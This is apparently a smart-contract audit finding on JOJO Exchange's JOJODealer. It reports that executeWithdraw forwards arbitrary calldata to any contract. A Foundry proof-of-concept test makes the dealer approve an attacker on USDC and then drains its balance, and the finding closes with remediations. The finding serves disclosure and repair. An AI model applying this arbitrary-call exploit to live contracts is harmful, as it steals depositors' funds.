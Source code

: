 Swift Tortilla Squid

high

# Loss of Funds: `JOJODealer.sol` can be drained via calls to `executeWithdraw`.

## Summary

When calling [`executeWithdraw(address,address,bool,bytes)`](https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/ed4a8483da11bcc04ced10de899038bcead087b3/smart-contract-EVM/src/JOJOExternal.sol#L38), the caller is permitted to specify an arbitrary [`to`](https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/ed4a8483da11bcc04ced10de899038bcead087b3/smart-contract-EVM/src/JOJOExternal.sol#L38) address and an arbitrary bytes payload, [`param`](https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/ed4a8483da11bcc04ced10de899038bcead087b3/smart-contract-EVM/src/JOJOExternal.sol#L38). When [`to`](https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/ed4a8483da11bcc04ced10de899038bcead087b3/smart-contract-EVM/src/JOJOExternal.sol#L38) is a contract, the arbitrary payload is used as calldata for invocation.

An attacker can exploit this by specifying a [`to`](https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/ed4a8483da11bcc04ced10de899038bcead087b3/smart-contract-EVM/src/JOJOExternal.sol#L38) address of an asset managed or approved to the [`JojoDealer`](https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/main/smart-contract-EVM/src/JOJODealer.sol), such as $USDC, and provide calldata to exploit this.

## Vulnerability Detail

In the test below, we demonstrate that during a normal withdrawal flow, an attacker can specify they wish to withdraw to a trusted contract with an arbitrary bytes payload.

In this flow, the `_ATTACKER` approves themselves to spend the full USDC balance of the `jojoDealer`:

### [DealerFundTest.sol](https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/main/smart-contract-EVM/test/impl/DealerFundTest.sol)

```solidity
function testWithdrawInternalTransferSherlock() public {
    jojoDealer.setWithdrawTimeLock(10);

    // First, `traders[0]` configures a position.
    vm.startPrank(traders[0]);
    jojoDealer.deposit(1_000_000e6, 1_000_000e6, traders[0]);
    jojoDealer.requestWithdraw(traders[0], 500_000e6, 200_000e6);

    cheats.expectRevert("JOJO_WITHDRAW_PENDING");
    jojoDealer.executeWithdraw(traders[0], traders[1], true, "");
    vm.stopPrank();

    // Let's also configure an attacker with some balance
    // to deposit.
    address _ATTACKER = address(0x69);

    vm.startPrank(_ATTACKER);

    // Mint some initial collateral.
    usdc.mint(_ATTACKER, 1e6);
    jusd.mint(_ATTACKER, 1e6);

    // Configure approvals.
    usdc.approve(address(jojoDealer), 1e6);
    jusd.approve(address(jojoDealer), 1e6);

    // Make a deposit.
    jojoDealer.deposit(1e6, 1e6, _ATTACKER);

    vm.stopPrank();

    // Simulate the passage of time. (Instead of using `vm.warp`,
    // we are following conventions in `DealerFundTest.t.sol`).
    jojoDealer.setWithdrawTimeLock(0);

    // Time to initialize the attack.
    vm.startPrank(_ATTACKER);

    // To start, verify we are unable to spend the dealer's funds:
    assertEq(usdc.allowance(address(jojoDealer), _ATTACKER), 0);

    // Here, we withdraw our collateral to the USDC address.
    jojoDealer.executeWithdraw(_ATTACKER, address(usdc), true, abi.encodeWithSignature("approve(address,uint256)", _ATTACKER, type(uint256).max));

    // Now assert that we can:
    assertEq(usdc.allowance(address(jojoDealer), _ATTACKER), type(uint256).max);

    // Verify we don't have an initial starting balance.
    assertEq(usdc.balanceOf(_ATTACKER), 0);

    // Excellent. Let's take everything.
    usdc.transferFrom(address(jojoDealer), _ATTACKER, usdc.balanceOf(address(jojoDealer)));

    // Confirm we took everything.
    assertEq(usdc.balanceOf(_ATTACKER), 1000001000000);

    vm.stopPrank();
}
```

As [`JojoDealer`](https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/main/smart-contract-EVM/src/JOJODealer.sol) is a critical system component, this attack can be further generalized to further exploit different token approvals or balances.

## Impact

I've labelled this as high severity, since an attacker can very easily drain the contract through a normal user journey with no complex additional setup, restrictive financial barrier or dependence upon a trusted actor.

In addition, since the vulnerable contract will receive token spend approvals from users (and for good user experience, user interfaces will often try to approve `type(uint256).max` for expenditure), the potential losses incurred through interacting with the contract can be far larger than what is demonstrated here.

## Code Snippet

```solidity
function _withdraw(
    Types.State storage state,
    address spender,
    address from,
    address to,
    uint256 primaryAmount,
    uint256 secondaryAmount,
    bool isInternal,
    bytes memory param
)
    private
{
    if (spender != from) {
        state.primaryCreditAllowed[from][spender] -= primaryAmount;
        state.secondaryCreditAllowed[from][spender] -= secondaryAmount;
        emit Operation.FundOperatorAllowedChange(
            from, spender, state.primaryCreditAllowed[from][spender], state.secondaryCreditAllowed[from][spender]
        );
    }
    if (primaryAmount > 0) {
        state.primaryCredit[from] -= SafeCast.toInt256(primaryAmount);
        if (isInternal) {
            state.primaryCredit[to] += SafeCast.toInt256(primaryAmount);
        } else {
            IERC20(state.primaryAsset).safeTransfer(to, primaryAmount);
        }
    }
    if (secondaryAmount > 0) {
        state.secondaryCredit[from] -= secondaryAmount;
        if (isInternal) {
            state.secondaryCredit[to] += secondaryAmount;
        } else {
            IERC20(state.secondaryAsset).safeTransfer(to, secondaryAmount);
        }
    }

    if (primaryAmount > 0) {
        // if trader withdraw primary asset, we should check if solid safe
        require(Liquidation._isSolidIMSafe(state, from), Errors.ACCOUNT_NOT_SAFE);
    } else {
        // if trader didn't withdraw primary asset, normal safe check is enough
        require(Liquidation._isIMSafe(state, from), Errors.ACCOUNT_NOT_SAFE);
    }

    if (isInternal) {
        emit TransferIn(to, primaryAmount, secondaryAmount);
        emit TransferOut(from, primaryAmount, secondaryAmount);
    } else {
        emit Withdraw(to, from, primaryAmount, secondaryAmount);
    }

    if (param.length != 0) {
        require(Address.isContract(to), "target is not a contract");
        (bool success,) = to.call(param);
        if (success == false) {
            assembly {
                let ptr := mload(0x40)
                let size := returndatasize()
                returndatacopy(ptr, 0, size)
                revert(ptr, size)
            }
        }
    }
}
```

## Tool used

Vim, Foundry

## Recommendation

Do not permit arbitrary function calls from trusted contracts designed to hold funds or receive token approvals.

Possible remediations:

1. Move the ability to originate arbitrary external calls to a dumb contract which does not act as a trusted component of the stack.
2. Require that targets are executed using a formal JOJO-specific callback interface.

